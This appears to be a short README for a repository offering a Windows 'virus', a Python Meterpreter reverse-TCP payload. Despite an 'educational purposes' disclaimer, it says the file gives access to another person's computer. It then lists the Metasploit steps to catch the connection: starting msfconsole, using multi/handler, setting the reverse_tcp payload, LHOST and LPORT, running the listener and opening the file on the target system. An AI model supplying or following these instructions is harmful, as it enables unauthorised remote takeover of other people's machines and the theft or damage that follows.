 #USE AT YOUR OWN RISK
This virus is used to educational purposes
With this virus you can run it on windows and it will give you access to their computer
To use it just run the commands in metasploit
msfconsole to start metasploit
then type use multi/handler
then type set PAYLOAD python/meterpreter/reverse_tcp
after that type set LHOST your ip
type set LPORT the port you want to use
then type run and open the file on another system
